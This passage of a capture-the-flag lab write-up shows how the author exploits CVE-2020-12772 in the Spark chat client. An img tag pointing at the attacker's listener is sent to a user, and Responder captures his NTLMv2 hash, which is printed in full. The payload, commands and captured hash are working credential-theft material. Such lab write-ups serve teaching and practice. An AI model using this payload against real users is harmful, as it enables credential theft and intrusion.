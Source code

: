 ![spark](https://imgur.com/itsxUhS.png)

We are logged in:

![spark authenticated](https://imgur.com/8iZuNk0.png)

Since we are an authenticated user on spark, I straight away searched up exploits for spark. 

I came across this interesting article on Github:

[CVE-2020-12772 - Github](https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md)

## buse

Sending the following &lt;img&gt; would essentially reveal the NTLM hashes of the user that visits the link. 

<pre>&lt;img src=[external_ip]/test.img&gt;</pre>

It looks like the user Buse is online:

![Buse online](https://imgur.com/kvVFi00.png)

His username is buse@fire.windcorp.thm so start a chat with him. We will be using Responder to listen for the NTLM hash. Please note, you will need to stop other services running to allow for responder to work (I had to close my SSH port for this to work).

<pre>sudo Responder -I tun0</pre>

Or, download the newest version from github:

<pre>git clone https://github.com/lgandx/Responder.git
cd Responder
sudo python3 Responder.py -I tun0</pre>

Now we can send the &lt;img&gt; tag to Buse:

<pre>&lt;img src=&quot;http://10.9.6.63/fedai.jpg&quot;&gt;</pre>

We got a hit!

![Responder hash](https://imgur.com/KztkX0C.png)

<pre>[+] Listening for events...
[HTTP] Sending NTLM authentication request to 10.10.97.155
[HTTP] GET request from: 10.10.97.155     URL: /fedai.jpg 
[HTTP] Host             : 10.9.6.63 
[HTTP] NTLMv2 Client   : 10.10.97.155
[HTTP] NTLMv2 Username : WINDCORP\buse
[HTTP] NTLMv2 Hash     : buse::WINDCORP:438ba8a6154108d5:84D16DD38C8DD23952D518A3FDEB2F04:0101000000000000D27CA1B08F65D601928E5FABDAFA236E000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C0008003000300000000000000001000000002000004962BEBF4B0492439D94E13699F51104AE7010E99EBF72263C47ACBD91DA470D0A00100000000000000000000000000000000000090000000000000000000000
</pre>
